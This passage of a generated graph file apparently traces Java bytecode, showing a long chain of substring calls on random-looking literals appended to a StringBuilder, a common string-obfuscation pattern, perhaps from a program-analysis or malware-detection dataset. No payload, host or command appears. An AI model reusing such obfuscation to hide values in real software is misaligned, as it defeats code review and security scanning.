    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Vsl61br\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Vsl61br\"";
    "push \"Vsl61br\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"GRTu672\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"GRTu672\"";
    "push \"GRTu672\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"D657WY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"D657WY\"";
    "push \"D657WY\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"22RW4d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"22RW4d\"";
    "push \"22RW4d\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E4829VWq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E4829VWq\"";
    "push \"E4829VWq\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E202\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E202\"";
    "push \"E202\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"626DJ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"626DJ\"";
    "push \"626DJ\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"n202HtSK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"n202HtSK\"";
    "push \"n202HtSK\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"p86aE4mG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"p86aE4mG\"";
    "push \"p86aE4mG\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"S1PE203JvH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"S1PE203JvH\"";
    "push \"S1PE203JvH\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"c2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"c2\"";
    "push \"c2\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Mw031EEl\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Mw031EEl\"";
    "push \"Mw031EEl\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"LswR292C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"LswR292C\"";
    "push \"LswR292C\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Q5e97U\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Q5e97U\"";
    "push \"Q5e97U\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b7\"";
    "push \"b7\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"phC847cNc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"phC847cNc\"";
    "push \"phC847cNc\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"r827jG8D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"r827jG8D\"";
    "push \"r827jG8D\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"u97b\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"u97b\"";
    "push \"u97b\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"u0s737\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"u0s737\"";
    "push \"u0s737\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"47GR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"47GR\"";
    "push \"47GR\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"SH722edLR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"SH722edLR\"";
    "push \"SH722edLR\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Rhm54mw5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Rhm54mw5\"";
    "push \"Rhm54mw5\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"48d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"48d\"";
    "push \"48d\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"a5a4Ss\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"a5a4Ss\"";
    "push \"a5a4Ss\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4l0we6FTh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4l0we6FTh\"";
    "push \"4l0we6FTh\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"66\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"66\"";
    "push \"66\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0B1d12BP4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0B1d12BP4\"";
    "push \"0B1d12BP4\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"za77829Arwz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"za77829Arwz\"";
    "push \"za77829Arwz\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"f3b6h\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"f3b6h\"";
    "push \"f3b6h\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4Mka2bcNb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4Mka2bcNb\"";
    "push \"4Mka2bcNb\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"YLD2bM3GT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"YLD2bM3GT\"";
    "push \"YLD2bM3GT\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b3l3b7Fs\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b3l3b7Fs\"";
    "push \"b3l3b7Fs\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"d6g2G\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"d6g2G\"";
    "push \"d6g2G\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ab36S\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ab36S\"";
    "push \"ab36S\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"m17JB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"m17JB\"";
    "push \"m17JB\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mHb46aVGL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mHb46aVGL\"";
    "push \"mHb46aVGL\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"R36j3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"R36j3\"";
    "push \"R36j3\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"828\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"828\"";
    "push \"828\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"V65rN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"V65rN\"";
    "push \"V65rN\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"647k297E1W3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"647k297E1W3\"";
    "push \"647k297E1W3\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b7dBj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b7dBj\"";
    "push \"b7dBj\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4Mz33b5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4Mz33b5\"";
    "push \"4Mz33b5\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"U7d3m\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"U7d3m\"";
    "push \"U7d3m\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b72\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b72\"";
    "push \"b72\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"a657e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"a657e\"";
    "push \"a657e\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"DgN475\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"DgN475\"";
    "push \"DgN475\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"G726m3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"G726m3\"";
    "push \"G726m3\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"eApe20M\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"eApe20M\"";
    "push \"eApe20M\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Tyy1272Dgq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Tyy1272Dgq\"";
    "push \"Tyy1272Dgq\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"P53z73cUD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"P53z73cUD\"";
    "push \"P53z73cUD\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"YZ72b7m\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"YZ72b7m\"";
    "push \"YZ72b7m\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5d3bl2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5d3bl2\"";
    "push \"5d3bl2\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"KQ652N5H0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"KQ652N5H0\"";
    "push \"KQ652N5H0\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"03AFT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"03AFT\"";
    "push \"03AFT\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"d20ld\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"d20ld\"";
    "push \"d20ld\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"g6eZwWM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"g6eZwWM\"";
    "push \"g6eZwWM\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"z865Uk\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"z865Uk\"";
    "push \"z865Uk\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"L7724z\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"L7724z\"";
    "push \"L7724z\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"h04z0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"h04z0\"";
    "push \"h04z0\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"vmR8572yWu7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"vmR8572yWu7\"";
    "push \"vmR8572yWu7\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"LUtS72\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"LUtS72\"";
    "push \"LUtS72\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"NYu6f74pR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"NYu6f74pR\"";
    "push \"NYu6f74pR\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rTq22A\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rTq22A\"";
    "push \"rTq22A\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"82pZKm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"82pZKm\"";
    "push \"82pZKm\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"CuZM93bcPe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"CuZM93bcPe\"";
    "push \"CuZM93bcPe\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"D6fb6W\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"D6fb6W\"";
    "push \"D6fb6W\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"52Dcqm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"52Dcqm\"";
    "push \"52Dcqm\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Nrze6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Nrze6\"";
    "push \"Nrze6\""->"push 3";
    "push 3"->"push 5";
